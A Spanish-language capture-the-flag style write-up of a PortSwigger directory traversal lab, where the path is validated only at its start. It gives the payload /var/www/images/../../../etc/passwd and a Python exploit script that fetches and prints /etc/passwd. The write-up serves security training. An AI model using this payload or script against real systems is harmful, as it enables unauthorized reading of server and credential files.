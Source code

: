 ```yaml
---
title: "05 File path traversal, validation of start of path"
collection: publications
category: portswigger
permalink: publications/Directory Traversal/05_File path traversal, validation of start of path
excerpt: 'Este laboratorio contiene una vulnerabilidad en la visualización de imágenes de productos. La aplicación transmite la ruta de archivo completa a través de un parámetro de solicitud, y valida que la ruta suministrada comienza con la carpeta esperada.'
date: 2024-12-07
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'File path traversal, validation of start of path'
---
```


![logo]({{site.url}}/images/Directory Traversal/directory-traversal-05/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Directory Traversal/directory-traversal-05/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, recuperamos el contenido del archivo `/etc/passwd`.

## Analisis

Vemos que tiene una ruta visible.

![Conf1]({{site.url}}/images/Directory Traversal/directory-traversal-05/conf1.png)

Probamos y regresamos carpetas e ingresar desde alli `/var/www/images/../../../etc/passwd` y vemos que es efectivo.

![Conf2]({{site.url}}/images/Directory Traversal/directory-traversal-05/conf2.png)

## Aprobado

![Aprobado]({{site.url}}/images/Directory Traversal/directory-traversal-05/aprobado.png)

# Codigo Python

```python
import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url + '/image?filename=/var/www/images/../../../etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting directory traversal vulnerability...")
    directory_traversal_exploit(url)


if __name__ == "__main__":
    main()
```